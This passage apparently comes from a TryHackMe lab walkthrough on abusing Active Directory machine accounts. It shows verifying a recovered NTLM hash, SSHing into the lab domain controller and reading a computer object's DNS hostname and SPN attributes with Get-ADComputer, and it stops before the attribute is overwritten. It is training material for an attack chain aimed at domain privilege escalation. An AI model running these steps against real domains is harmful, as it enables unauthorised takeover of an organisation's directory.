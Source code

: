 We can verify the NTLM hash recovered against the password we set for the machine account using an [NTLM Generator](https://codebeautify.org/ntlm-hash-generator).

Updating the DNS Hostname and SPN Attributes

In order to update the AD object's attributes, we will use the [AD-RSAT PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory) cmdlets. You can use the following command on the AttackBox to SSH into the machine:

AttackBox Terminal

```shell-session
[thm@thm]$ ssh lunar.eruca.com\\thm@lundc
```

Once you're in, start Powershell:

SSH Terminal

```shell-session
lunar\thm@LUNDC C:\Users\thm>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm>
```

Let's first just get the current attributes from our Computer AD Object using the Get-ADComputer cmdlet:

SSH Terminal

```shell-session
PS C:\Users\thm>Get-ADComputer THMPC -properties dnshostname,serviceprincipalname

DistinguishedName    : CN=THMPC,CN=Computers,DC=lunar,DC=eruca,DC=com                                                                
DNSHostName          : THMPC.lunar.eruca.com                                                                                         
Enabled              : True                                                                                                           
Name                 : THMPC2ObjectClass          : computer                                                                                                       
ObjectGUID           : f40260ee-2f74-4fa1-aa4c-f83bcf589c15                                                                           
SamAccountName       : THMPC$                                                                                                        
serviceprincipalname : {RestrictedKrbHost/THMPC.lunar.eruca.com, RestrictedKrbHost/THMPC, HOST/THMPC.lunar.eruca.com, HOST/THMPC} 
SID                  : S-1-5-21-3330634377-1326264276-632209373-11218                                                                 
UserPrincipalName    : 
```

We can see that both the DNS hostname and the SPN attributes are set to match our computer's name. Let's try to update the DNS hostname attribute to that of the DC using the Set-ADComputer cmdlet:

SSH Terminal
